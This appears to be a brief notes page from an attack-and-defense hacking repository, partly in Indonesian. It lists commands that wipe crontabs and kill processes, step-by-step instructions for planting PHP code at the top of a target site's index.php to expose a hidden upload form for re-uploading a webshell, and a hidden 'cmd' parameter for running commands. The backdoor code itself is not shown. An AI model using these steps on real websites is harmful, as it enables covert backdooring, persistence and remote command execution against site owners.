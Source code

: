 Attack & Defense Tricks
=======================================
https://www.youtube.com/c/MatheuZSecurity

crontab -r && pgrep -U user kill -9

crontab -r && systemctl restart apache2

kill -KILL 1223

main sh/bash


Cara Penggunaan RCE
===================================
Cara penggunakan
- 1.sisipkan code php ini di index.php paling atas 
- 2.buka index php di website contoh https://target.com/index.php dan tambahkan menjadi https://target.com/index.php?admin=upload
- 3.tempat upload tersembunyi akan muncul dan tinggal upload kembali webshell anda dan mengaksesnya contoh https://target.com/uploads/shell.php

cmd hidden
===================
contoh:
https://link.com/index.php?cmd=ls
